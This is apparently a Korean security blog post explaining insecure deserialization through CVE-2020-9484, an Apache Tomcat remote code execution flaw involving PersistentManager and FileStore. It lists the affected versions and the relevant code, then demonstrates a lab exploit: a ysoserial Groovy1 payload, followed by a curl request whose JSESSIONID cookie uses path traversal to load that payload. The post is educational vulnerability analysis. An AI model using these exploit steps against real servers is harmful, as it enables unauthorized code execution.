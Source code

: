 ```yaml
---
layout: default
title: CVE-2020-9484 (Apache Tomcat Remote Code Execution Vulnerability)
parent: Web
date:   2020-06-17 16:51:00 +0900
nav_order: 3
---
```


**Insecure Deserialization (안전하지 않은 역직렬화)**

**OWASP TOP 10**에 등재된 **Deserialization** 공격에 대해 정리하려고 합니다.

이번에 발행된 **CVE-2020-9484**를 예를 들어서 포스팅을 작성하였습니다.

{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

# 직렬화와 역직렬화

## 개요

- 직렬화 : 특정 Class의 현재 인스턴스 상태를 다른 서버로 전달 하기 위해 <br>Byte Code로 복사하는 작업, 직렬화(Serialization)

- 역직렬화 : 저장된 파일에서 Byte Code를 읽거나 전송된 스트림 데이터를 읽어 <br>특정 Class의 인스턴스 형태로 복원하는 것, 역직렬화 (Deserialization)

## Serialization / Deserialization의 제약사항

데이터 Deserialization 과정에서 원격코드 실행이나 권한 상승 취약점들이 발생할 수 있다.

1. 데이터를 처리하는 곳 모두 ClassPath안에 전달된 객체에 대한 Library 가지고 있어야함
2. 전송할 인스턴스는 Java.io.Serializable을 implement해야함 <br>(즉, 직렬화가 불가능한 인스턴스를 포함하면 안됨)
3. transient field 인스턴스는 정보가 전달 되지 않음
4. Serialization / Deserialization 는 기 생성된 인스턴스의 복사만 가능하여 <br>Constructor가 실행되지 않음

---

# CVE-2020-9484 <br> (Apache Tomcat Remote Code Execution Vulnerability)

## 영향받는 버전 및 요구사항

```
- Apache Tomcat 10.x < 10.0.0-M5
- Apache Tomcat 9.x < 9.0.35
- Apache Tomcat 8.x < 8.5.55
- Apache Tomcat 7.x < 7.0.104

- PersistentManger 활성화, FileStore 사용중
- Deserialization 공격 파일 업로드 가능, 업로드 경로 확인 가능
```

## 왜 세션인가?

Tomcat은 Session management 방법을 2가지 제공하고 있습니다.

- org.apache.catalina.session.StandardManager (default)

- org.apache.catalina.session.PersistentManager

StandarManager는 구동중에는 메모리에 저장하고 있다가 종료시 session을 <br>Serialized 된 데이터를 disk에 저장합니다 ( default로 SESSIONS.ser )

PersistentManager는 동일하나 메모리 관리를 위해 session이 일정 시간 동안 <br>사용 되지 않으면 데이터를 disk에 저장합니다.

여기서 2개 옵션을 사용 할 수 있는데 FileStore와 JDBCStore 입니다.

FileStore는 session을 disk에 저장하는데 sessionID를 파일이름으로 사용합니다.

JDBCStore는 DB에 데이터를 저장합니다.

## FileStore

따라서 FileStore를 사용하게 되면 아래 코드와 같이 directory + sessionID + '.session'인<br>파일에서 데이터를 불러오게 됩니다.

[FileStore Github code](https://github.com/dpzain/apache-tomcat-9.0.24/blob/b7b63b843c7978ee6733964b02f232563f9b427c/java/org/apache/catalina/session/FileStore.java)

```java
/**
     * Return a File object representing the pathname to our
     * session persistence file, if any.
     *
     * @param id The ID of the Session to be retrieved. This is
     *    used in the file naming.
     */
    private File file(String id) throws IOException {
        if (this.directory == null) {
            return null;
        }
        String filename = id + FILE_EXT;
        File file = new File(directory(), filename);
        return file;
    }
```

## context.xml in tomcat conf

context.xml에서 FileStore가 사용중인 directory를 확인합니다.

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>
</Manager>
```

---

# 취약점 테스트

[masahiro331 Github](https://github.com/masahiro331/CVE-2020-9484.git)에 구성된 환경으로 테스트를 진행했습니다.

[ysoserial](https://github.com/frohoff/ysoserial)

<img src='{{ "/assets/images/web/web_cve_2020_9484_1.png" | absolute_url }}'>

공격을 위해 ysoserial에서 해당 서버 환경에 맞는 Serialized된 bytecode를 생성합니다.

```
$ java -jar ysoserial.jar Groovy1 'touch /tmp/rce' > groovy.session
```

<img src='{{ "/assets/images/web/web_cve_2020_9484_2.png" | absolute_url }}'>

서버 내 공격코드 파일 (groovy.session)의 위치를 확인합니다.

```
root@e340adc43b93:/usr/local/tomcat# ls
BUILDING.txt	 LICENSE  README.md	 RUNNING.txt  conf	      include  logs	       temp	webapps.dist
CONTRIBUTING.md  NOTICE   RELEASE-NOTES  bin	      groovy.session  lib      native-jni-lib  webapps	work
```

---

**공격 코드 실행**

```
$ curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../usr/local/tomcat/groovy'
```

<img src='{{ "/assets/images/web/web_cve_2020_9484_3.png" | absolute_url }}'>

---

# 참고자료

0. BLOG

<https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/>

<https://github.com/masahiro331/CVE-2020-9484>

<https://github.com/frohoff/ysoserial>